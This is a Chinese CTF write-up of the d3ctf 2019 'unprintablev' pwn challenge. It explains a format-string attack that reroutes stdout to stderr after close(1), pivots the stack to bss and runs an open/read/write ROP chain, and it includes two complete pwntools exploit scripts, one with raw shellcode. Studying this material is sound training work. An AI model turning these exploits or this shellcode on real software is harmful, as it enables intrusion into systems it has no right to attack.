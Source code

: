 ```yaml
---
title: BUUCTF_d3ctf_unprintablev(2019)
date: 2022/4/30 08:46:25
tags:
 - PWN
 - ctf
categories:
 - BUU
---
```

## 总结：

通过这道题的学习与收获有：

1、close 关闭了标准输出时，可以用格式化字符串漏洞来将stdout指向的内容修改成IO_2_1_stderr，让程序重新有回显，关于这个过程我画了张图方便自己理解。

<img src="/upload/img/image-20220429210243217.png" alt="image-20220429210243217" style="width:50%;" />



2、已经拿到libc基地址的时候，我们所需要的gadget就可以直接去libc中拿，libc里啥都有，libc里啥都有，libc里啥都有，重要的事情说三遍！

3、写爆破脚本时，感觉会报错的地方，用try和except预判一手，让程序得以继续重新运行，而不是原地崩溃。

4、如果close(1)关闭了标准输出，那么格式化字符串漏洞的写入数据最多只能写入0x2000字节，程序如果执行了setvbuf，stdout会出现在bss段，反之则会在libc库中。
<!--more-->
## 保护策略：

<img src="/upload/img/image-20220428205917903.png" alt="image-20220428205917903" style="width:50%;" />

<img src="/upload/img/image-20220428210310835.png" alt="image-20220428210310835" style="width: 33%;" />

## 程序分析：

<img src="/upload/img/image-20220428210118223.png" alt="image-20220428210118223" style="width:33%;" />

<img src="/upload/img/image-20220428210156841.png" alt="image-20220428210156841" style="width: 50%;" />

程序分析起来完全没压力，就是开了个沙箱，然后关闭了标准输出，然后循环100次格式化字符串漏洞（如果输入d^3CTF则会直接退出程序），数据是输入到了bss段。另外就是保护开了PIE

这道题可以说是de1ctf_2019_unprintable这道的强化版（因为某些方面这道题更简单），如果你现在在做本题并且没有做过unprintable这道题的话，建议先去做[de1ctf_2019_unprintable](https://www.cnblogs.com/ZIKH26/articles/16167705.html)这道题。

其实要说强化也不至于，这俩的区别就是一个是GetShell，一个是orw。前面的手法还是差不多的，ok，下面来分析一下这道题	

## 大致思路：

首先这道题可以利用一百次的格式化字符串漏洞，这个相比于de1ctf_2019_unprintable的话是简单很多的。因为开了沙箱，那就考虑orw。有了unprintable这道题的经验，就很容易想到这道个题的思路也是将rop链布置到bss，然后将栈迁移到bss段即可。

然后就是最不好想的点，close(1)怎么处理？如果我们可以获取shell的话，可以将文件描述符重定位一下，用socket+connect也可以对抗close(1)（具体参考[这篇文章]([easyrop_2022胖哈勃春季赛 - ZikH26 - 博客园 (cnblogs.com)](https://www.cnblogs.com/ZIKH26/articles/16193814.html))）但是对于这道题而言都行不通，如果不能搞定这个close(1)，libc基地址和程序地址都无法泄露，那啥都没有还做个锤子...

在此学习到了一种新的手法来处理close(1)

> 程序中的stdout（它是个指针）只是相当于一个跳板的作用（目的是去libc中寻IO_2_1_stdout地址），而IO_2_1_stdout所使用文件描述符1，close(1)关闭的是文件描述符1，但是程序中想要进行输出，并不是去直接跟文件描述符相接触，而是通过stdout来去访问到文件描述符(事实上它访问的是IO_2_1_stdout这个结构，而这个结构使用了文件描述符），举个例子，即使文件描述符1被关闭，但是**执行puts的时候，程序是不知道文件描述符被关闭了，因此它依然会通过stdout来去寻找IO_2_1_stdout**（以获取文件描述符1），**等找到IO_2_1_stdout，程序才意识到文件描述符1被关闭，因此并不会让puts出现任何回显**。
>
> 但是如果我们可以在这个过程的中间做手脚比如将原本stdout所指向的IO_2_1_stdout修改为IO_2_1_stderr，等程序来寻找的时候，最终获取了文件描述符2，由于文件描述符2对应的终端也是屏幕，最终执行puts成功出现了回显。

PS:**程序如果setvbuf，stdout会出现在bss段，反之则会在libc库中**。



因此当前思路就是利用格式化字符串将stdout所指向的IO_2_1_stdout修改为IO_2_1_stderr，让程序出现回显。（另外就是一个大坑，**如果close(1)关闭了标准输出，那么格式化字符串漏洞的写入数据最多只能写入0x2000字节**（本菜狗通过实验仅仅只发现了这个规律，目前还不知道原因，如果各位师傅知道原因的话，还请告知）

### 重启输出

由于输入是在bss段上，要是想修改栈中的数据，就要去布置一条栈链（关于栈链本文不再多说，具体可以去看[de1ctf_2019_unprintable](https://www.cnblogs.com/ZIKH26/articles/16167705.html)这篇文章）

然后通过栈链来修改数据。

### 布置栈链

<img src="/upload/img/image-20220429120513056.png" alt="image-20220429120513056" style="width: 50%;" />

首先发现栈中存在bss段上buf的地址<font color=red>（**请注意区分buf的地址，和指向buf的地址）**</font>，因此我们要把0x7fffffffdf58布置到栈里面，通过0x7fffffffdf58来改写0x555555756060,将其改写为stdout的地址，然后通过stdout的地址来修改libc中IO_2_1_stdout。

发现这里有一条栈链（如下图），那么我们拿它来开刀

![image-20220429120543301](/upload/img/image-20220429120543301.png)

这个偏移是6，因此第一次输入payload为

```python
payload = '%' + str(leak) + 'c%6$hhn'
```

leak为程序自己泄露的地址取最后一字节，通过调试发现程序自己泄露的地址就是**指向buf的地址**，而我们现在就是要利用栈链把**指向buf的地址**写到栈里。

下图为修改前：

![image-20220429120948542](/upload/img/image-20220429120948542.png)

下图为修改后：

![image-20220429121046146](/upload/img/image-20220429121046146.png)



下一步，通过指向buf的地址来修改buf地址，将其修改为stdout的值，也就是通过下图来进行修改

![image-20220429131219657](/upload/img/image-20220429131219657.png)

由图可知，偏移取10（考虑六个寄存器），payload如下：

```python
payload = '%' + str(0x20) + 'c%10$hhn'
```

修改前：

<img src="/upload/img/image-20220429131426041.png" alt="image-20220429131426041" style="width: 67%;" />

修改后：

![image-20220429131503421](/upload/img/image-20220429131503421.png)

此时buf已经被修改成了stdout的值，可以看到stdout指向了IO_2_1_stdout。

### 修改IO_2_1_stdout

最后通过stdout将IO_2_1_stdout改为IO_2_1_stderr即可。

IO_2_1_stderr的偏移去libc中找（如下图），由于最后偏移只是最后一个半字节不同，但是利用格式化字符串要么修改一字节要么修改两字节，因此这里我们采用修改后两字节，即爆破倒数第四位（我们采用hn写入，但是对偏移取&0xfff，因此我们一直在爆破成功的条件就是libc基地址倒数第四位为0时）

![image-20220429132536061](/upload/img/image-20220429132536061.png)

这里的payload为

```python
payload = '%' + str(stderr) + 'c%9$hn'
```

stderr为IO_2_1_stderr地址最后三位

由于这里是需要爆破的，如果爆破不成功就意味着修改失败，则程序依然不会给回显，因此我们通过程序是否有回显来判断,如果有回显的话，我们发过去的aaaaa肯定是可以被接收的，否则则返回当前函数，继续爆破。

```python
p.sendline('aaaaaaa')
    x = p.recvuntil('aa', timeout=0.5)
    if 'aa' not in x:
        print('fail')
        return 1
    else:
        print('success-----------------------------------------')
```

下面为爆破成功修改stdout的情况，可以看到此时的stdout已经指向了IO_2_1_stderr

![image-20220429135139870](/upload/img/image-20220429135139870.png)

至此我们的输出已经被重启，那剩下的就随便玩了。

### 泄露数据

由于接下来要对抗PIE以及要获取libc，因此我们要先泄露一下栈中数据。我们要获取栈基地址，libc基地址，程序基地址，观察栈里情况（如下图）

<img src="/upload/img/image-20220429142543524.png" alt="image-20220429142543524" style="width:67%;" />

如果此时直接发送payload会发现后门的数据都连包了，如果每次sendline之前都打上pause()，那么在格式化字符串执行的时候要你把所有的sendline全发了才能去执行，如果全发的话会连包... （这里补充一个很细的技巧，每次发送数据时，把payload给填满，这样就可以避免连包的产生），payload如下。

```python
payload = '%19$p%15$p%6$p'
p.sendline(payload.ljust(0x12c - 1, '\x00'))
```

### 修改返回地址

因为最后的核心是在bss段布置rop链，因此我们需要把栈给迁移到bss段。大致思路是将返回地址改写成pop rsp地址，而把返回地址下面的内容改成要迁移的bss段地址，最后执行pop rsp的时候就完成了迁移，最终执行我们布置在bss段上rop链。

先说修改返回地址。

![image-20220429145805076](/upload/img/image-20220429145805076.png)

只需要拿pop rsp的地址加上程序基地址的偏移，然后取后两字节就ok了。不过通过观察当前栈发现，依旧是需要栈链来修改返回地址，因为没有栈的内容指向了返回地址（如下图）

![image-20220429200013595](/upload/img/image-20220429200013595.png)

将栈顶内存单元指向的0x7ffe8cfa5578改成0x7ffe8cfa5588（如下图），这步的目的是通过0x7ffe8cfa5588来修改menu的返回地址。

```python
payload = '%' + str(hook1) + 'c%6$hhn'
p.sendline(payload.ljust(0x12c - 1, '\x00'))
```

修改后：

![image-20220429184528636](/upload/img/image-20220429184528636.png)

然后将menu函数的返回地址修改成pop rsp

```python
payload = '%' + str(rsp_addr) + 'c%10$hn'
p.sendline(payload.ljust(0x12c - 1, '\x00'))
```

下图为修改后：

![image-20220429201250680](/upload/img/image-20220429201250680.png)



此时返回地址已经修改完成，最后两步分别是布置迁移地址和构造rop链，先说布置迁移地址。

### 布置迁移地址

这个过程和[de1ctf_2019_unprintable](https://www.cnblogs.com/ZIKH26/articles/16167705.html)一模一样（原理在这篇文章中已经解释），就不再解释原理了，直接放这部分脚本了

```python
# 布置迁移地址bss_addr+0x10  因为bss要存放d^3CTF and flag
    sleep(0.2)
    # pause()
    print("bss_hook1------------->", hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    bss_addr = base_addr + 0x202060
    print("bss1_addr------------->", hex(bss_addr & 0xffff))
    payload = '%' + str((bss_addr + 0x10) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    sleep(0.2)
    # pause()
    bss_hook = bss_hook + 2
    print('bss_hook2-------------->', hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    print("bss2_addr------------->", hex((bss_addr >> 16) & 0xffff))
    payload = '%' + str(((bss_addr) >> 16) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    sleep(0.2)
    # pause()
    bss_hook = bss_hook + 2
    print('bss_hook3-------------->', hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    print("bss2_addr------------->", hex((bss_addr >> 32) & 0xffff))
    payload = '%' + str(((bss_addr) >> 32) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

```

### 布置rop链

首先要触发pop rsp，肯定是要结束循环，因此我们输入的payload最开始要存放字符串d^3CTF，同时我们要采用orw，open的flag字符串也要存入。所以d^3CTF后面再写个flag字符串。又因为最开始的pop rsp后面还有pop r13;pop r14;pop r15，因此在字符串后面填入24字节的垃圾数据（为了避免将字符串弹入寄存器，我们迁移的地址垫高0x10字节）

至此开始正式布置rop链，这里说一下，我最开始用的是mprotect函数改写bss段属性，最后本地获取了flag，但是远程没有显示flag（但是脚本写的是没问题的，远程不通是个未解之谜...这个脚本我放到文末了）

mprotect行不通，那就采用传统方式，传参然后执行函数。

我们接下来就是要执行下面的内容，值得一提的是由于close关闭了文件描述符1，因此open返回的文件描述符是1（文件描述符是取当前可用文件描述符的最小的那一个，此时0,2被占用，因此1是最小），同时由于stdout指向了IO_2_1_stderr,所以我们应该使用文件描述符2进行输出。

```python
open(flag_addr,0)
read(1,base_addr+0x202060+0x300,0x100)
write(2,base_addr+0x202060+0x300,0x100)
```

至于传参之类所需要的gadget，用啥就去libc库里找（因为现在libc基地址是知道的），libc里啥都有。

```python
	payload = 'd^3CTF\x00\x00'
    payload += 'flag\x00\x00\x00\x00'
    payload += p64(0) + p64(0) + p64(0)
    # open(flag_addr,0)
    payload += p64(pop_rdi_addr) + p64(base_addr + 0x202068)
    payload += p64(pop_rsi_r15_addr) + p64(0) + p64(0)
    payload += p64(open_addr)

    # read(1,base_addr+0x202060+0x300,0x100)
    payload += p64(pop_rdi_addr) + p64(1)
    payload += p64(pop_rsi_r15_addr) + p64(base_addr + 0x202060 + 0x300) + p64(0)
    payload += p64(pop_rdx_addr) + p64(0x100)
    payload += p64(read_addr)

    # write(2,base_addr+0x202060+0x300,0x100)
    payload += p64(pop_rdi_addr) + p64(2)
    payload += p64(pop_rsi_r15_addr) + p64(base_addr + 0x202060 + 0x300) + p64(0)
    payload += p64(pop_rdx_addr) + p64(0x100)
    payload += p64(write_addr)
    p.sendline(payload)
    p.interactive()
```

## exp

### 获取libc基地址，用libc库里的gadget执行orw获取flag

```python
# coding:utf-8
from pwn import *

# from pwncli import *
context(arch='amd64', log_level='debug')


def pwn():
    # gdb.attach(p)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    io_stderr_addr = libc.symbols['_IO_2_1_stderr_']
    print('io_stderr_addr------------>', hex(io_stderr_addr))
    print(hex(leak_addr))
    print_ret_addr = leak_addr - 0x20
    print('print_ret_addr-------->', hex(print_ret_addr))
    '''构造栈链，第一次构造一个指向buf的栈地址'''
    leak = (leak_addr) & 0xff
    print(hex(leak))
    payload = '%' + str(leak) + 'c%6$hhn'
    p.sendline(payload)
    rsp_addr = 0xbbd

    '''第二次通过指向buf的栈地址，将buf修改为stdout'''
    # pause()
    sleep(0.2)
    payload = '%' + str(0x20) + 'c%10$hhn'
    p.sendline(payload)

    '''第三次通过stdout将_IO_2_1_stdout_改成_IO_2_1_stderr_值，此时需要爆破倒数第二字节的前半字节，猜测为0，概率1/16'''
    # pause()
    sleep(0.2)
    stderr = io_stderr_addr & 0xfff
    print('stderr------------>', hex(stderr))
    payload = '%' + str(stderr) + 'c%9$hn'
    p.sendline(payload)

    '''下面来判断是否将stdout指向的值改写成stderr指向的值'''
    p.sendline('aaaaaaa')
    try:
        x = p.recvuntil('aa', timeout=0.5)
    except:
        return
    if 'aa' not in x:
        print('XXXXXX')
        return 1
    else:
        print('success-----------------------------------------')
    pause()

    #gdb.attach(p)
    payload = '%19$p%15$p%6$p'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    # pause()
    sleep(0.2)
    p.recvuntil('\x78')
    main_addr = int(p.recv(12), 16)
    # main_addr=u64(p.recv(6).ljust(8,'\x00'))
    print('main_addr---------->', hex(main_addr))
    base_addr = main_addr - 0xb24
    print('base_addr---------->', hex(base_addr))
    pause()
    p.recvuntil('\x78')
    leak_libc = int(p.recv(12), 16)
    print('leak_libc------------->', hex(leak_libc))
    libc_base = leak_libc - 0x21b97
    print('libc_base--------->', hex(libc_base))
    p.recvuntil('\x78')
    rsp_hook = int(p.recv(12), 16)
    print('rsp_hook---------->', hex(rsp_hook))

    rsp_addr = rsp_addr + base_addr
    print('rsp_addr----------------------->', hex(rsp_addr))
    rsp_addr = rsp_addr & 0xffff
    print('rsp_addr----------------------->', hex(rsp_addr))
    # pause()
    sleep(0.2)
    hook1 = (rsp_hook + 8) & 0xff
    print('hook1------------->', hex(hook1))
    payload = '%' + str(hook1) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()

    # 将menu函数的返回地址修改成pop rsp
    payload = '%' + str(rsp_addr) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    # 写入bss段指针
    bss_hook = rsp_hook + 0x10

    # 布置迁移地址bss_addr+0x10  因为bss要存放d^3CTF and flag
    sleep(0.2)
    # pause()
    print("bss_hook1------------->", hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    bss_addr = base_addr + 0x202060
    print("bss1_addr------------->", hex(bss_addr & 0xffff))
    payload = '%' + str((bss_addr + 0x10) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    sleep(0.2)
    # pause()
    bss_hook = bss_hook + 2
    print('bss_hook2-------------->', hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    print("bss2_addr------------->", hex((bss_addr >> 16) & 0xffff))
    payload = '%' + str(((bss_addr) >> 16) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    sleep(0.2)
    # pause()
    bss_hook = bss_hook + 2
    print('bss_hook3-------------->', hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    print("bss2_addr------------->", hex((bss_addr >> 32) & 0xffff))
    payload = '%' + str(((bss_addr) >> 32) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))


    pop_rdx_addr = 0x1b96 + libc_base
    pop_rdi_addr = base_addr + 0xbc3
    pop_rsi_r15_addr = base_addr + 0xbc1
    read_addr = 0x110070 + libc_base
    write_addr = libc_base + 0x110140
    open_addr = libc_base + 0x10fc40

    payload = 'd^3CTF\x00\x00'
    payload += 'flag\x00\x00\x00\x00'
    payload += p64(0) + p64(0) + p64(0)
    # open(flag_addr,0)
    payload += p64(pop_rdi_addr) + p64(base_addr + 0x202068)
    payload += p64(pop_rsi_r15_addr) + p64(0) + p64(0)
    payload += p64(open_addr)

    # read(1,base_addr+0x202060+0x300,0x100)
    payload += p64(pop_rdi_addr) + p64(1)
    payload += p64(pop_rsi_r15_addr) + p64(base_addr + 0x202060 + 0x300) + p64(0)
    payload += p64(pop_rdx_addr) + p64(0x100)
    payload += p64(read_addr)

    # write(2,base_addr+0x202060+0x300,0x100)
    payload += p64(pop_rdi_addr) + p64(2)
    payload += p64(pop_rsi_r15_addr) + p64(base_addr + 0x202060 + 0x300) + p64(0)
    payload += p64(pop_rdx_addr) + p64(0x100)
    payload += p64(write_addr)
    p.sendline(payload)
    p.interactive()


i = 0
while 1:
    #p = process('./a')
    p=remote("node4.buuoj.cn",28285)
    p.recvuntil('\x78')
    leak_addr = int(p.recv(12), 16)
    print(hex(leak_addr & 0xffff))
    pwn()


```

![image-20220429204629254](/upload/img/image-20220429204629254.png)

### 用shellcode执行orw

这个本地看到flag了，但是远程有问题，也在此记录一下。

```python
# coding:utf-8
from pwn import *
#from pwncli import *
context(arch='amd64', log_level='debug')


def pwn():
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    io_stderr_addr = libc.symbols['_IO_2_1_stderr_']
    print('io_stderr_addr------------>', hex(io_stderr_addr))
    print(hex(leak_addr))
    print_ret_addr = leak_addr - 0x20
    print('print_ret_addr-------->', hex(print_ret_addr))
    '''构造栈链，第一次构造一个指向buf的栈地址'''
    leak = (leak_addr) & 0xff
    print(hex(leak))
    payload = '%' + str(leak) + 'c%6$hhn'
    p.sendline(payload)
    rsp_addr = 0xbbd

    '''第二次通过指向buf的栈地址，将buf修改为stdout'''
    # pause()
    sleep(0.2)
    payload = '%' + str(0x20) + 'c%10$hhn'
    p.sendline(payload)

    '''第三次通过stdout将_IO_2_1_stdout_改成_IO_2_1_stderr_值，此时需要爆破倒数第二字节的前半字节，猜测为0，概率1/16'''
    # pause()
    sleep(0.2)
    stderr = io_stderr_addr & 0xfff
    print('stderr------------>', hex(stderr))
    payload = '%' + str(stderr) + 'c%9$hn'
    p.sendline(payload)

    '''下面来判断是否将stdout指向的值改写成stderr指向的值'''
    p.sendline('aaaaaaa')
    x = p.recvuntil('aa', timeout=0.5)
    if 'aa' not in x:
        print('XXXXXX')
        return 1
    else:
        print('success-----------------------------------------')
    pause()

    #gdb.attach(p)
    payload = '%19$p%15$p%6$p'
    p.sendline(payload.ljust(0x12c-1,'\x00'))
    # pause()
    sleep(0.2)
    p.recvuntil('\x78')
    main_addr = int(p.recv(12), 16)
    # main_addr=u64(p.recv(6).ljust(8,'\x00'))
    print('main_addr---------->', hex(main_addr))
    base_addr = main_addr - 0xb24
    print('base_addr---------->', hex(base_addr))
    pause()
    p.recvuntil('\x78')
    leak_libc=int(p.recv(12), 16)
    print('leak_libc------------->',hex(leak_libc))
    libc_base = leak_libc- 0x21b97
    print('libc_base--------->', hex(libc_base))
    p.recvuntil('\x78')
    rsp_hook = int(p.recv(12), 16)
    print('rsp_hook---------->', hex(rsp_hook))


    one_gadget = libc_base + 0x10a2fc
    print('one_gadget-------------------->', hex(one_gadget))
    high_addr = (one_gadget >> 32) & 0xffff
    print('high_addr--------------------->', hex(high_addr))
    medium_addr = (one_gadget >> 16) & 0xffff
    print('medium_addr------------------->', hex(medium_addr))
    low_addr = (one_gadget) & 0xffff
    print('low_addr---------------------->', hex(low_addr))

    rsp_addr = rsp_addr + base_addr
    print('rsp_addr----------------------->', hex(rsp_addr))
    rsp_addr = rsp_addr & 0xffff
    print('rsp_addr----------------------->', hex(rsp_addr))
    # pause()
    sleep(0.2)
    hook1 = (rsp_hook + 8) & 0xff
    print('hook1------------->', hex(hook1))
    payload = '%' + str(hook1) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()

    # 将menu函数的返回地址修改成pop rsp
    payload = '%' + str(rsp_addr) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    # 写入bss段指针
    bss_hook = rsp_hook + 0x10

    # payload='%'+str(low_addr)+'c%10$hn'
    # p.sendline(payload.ljust(0x12c-1,'\x00'))


    #布置迁移地址bss_addr+8  因为bss要存放d^3CTF
    sleep(0.2)
    # pause()
    print("bss_hook1------------->", hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    bss_addr = base_addr + 0x202060
    print("bss1_addr------------->", hex(bss_addr & 0xffff))
    payload = '%' + str((bss_addr+8) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    sleep(0.2)
    # pause()
    bss_hook = bss_hook + 2
    print('bss_hook2-------------->', hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    print("bss2_addr------------->", hex((bss_addr >> 16) & 0xffff))
    payload = '%' + str(((bss_addr) >> 16) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    sleep(0.2)
    # pause()
    bss_hook = bss_hook + 2
    print('bss_hook3-------------->', hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    print("bss2_addr------------->", hex((bss_addr >> 32) & 0xffff))
    payload = '%' + str(((bss_addr) >> 32) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    # lb = LibcBox()
    # lb.add_symbol('__libc_start_main', leak_libc)  # 这个地方跟libcsearcher用法基本一样，下面也是去dump出来
    # lb.search(download_so=1)
    # libc_base = puts_addr - lb.dump('__libc_start_main')

    mprotect_addr=libc_base+0x11bae0
    read_addr=0x116600+libc_base
    write_addr=libc_base+0x1166a0
    open_addr=libc_base+0x10fc40
    #mprotect(bss_addr,0x100000,7)
    csu1_gadget=base_addr+0xbba
    pop_rdx_addr=0x1b96+libc_base
    term_proc=base_addr+0x201DB8
    magic_gadget=base_addr+0x8de
    pop_rdi_addr=base_addr+0xbc3
    pop_rsi_r15_addr=base_addr+0xbc1
    
    exit_addr=0x43120+libc_base
    alarm_offset=0xe44f0
    alarm_got_addr=0x201FB0+base_addr
    orw_shellcode='\x68\x66\x6C\x61\x67\x54\x5F\x6A\x00\x5E\x6A\x02\x58\x0F\x05\x6A\x01\x5F\x54\x5E\x6A\x50\x5A\x6A\x00\x58\x0F\x05\x6A\x02\x5F\x54\x5E\x6A\x50\x5A\x6A\x01\x58\x0F\x05'
    payload='d^3CTF\x00\x00'
    payload+=p64(0)+p64(0)+p64(0)
    payload+=p64(pop_rdi_addr)+p64(base_addr+0x202000)
    payload+=p64(pop_rsi_r15_addr)+p64(0x100000)+p64(0)
    payload+=p64(pop_rdx_addr)+p64(7)
    payload+=p64(mprotect_addr)
    payload+=p64(base_addr+0x60+0x202060+0x8)
    payload+=orw_shellcode
    p.sendline(payload)
    # gdb.attach(p)
    p.interactive()


i = 0
while 1:
    #p = process('./a')
    p=remote('node4.buuoj.cn',25582)
    # gdb.attach(p)
    p.recvuntil('\x78')
    leak_addr = int(p.recv(12), 16)
    print(hex(leak_addr & 0xffff))
    if leak_addr & 0xffff > 0x2000:
        print('---------i------------', i)
        i = i + 1
        continue
    else:
        p.recvuntil("may you enjoy my printf test!\n")
        pwn()
        continue

```

这个是本地出的flag

![image-20220429204916689](/upload/img/image-20220429204916689.png)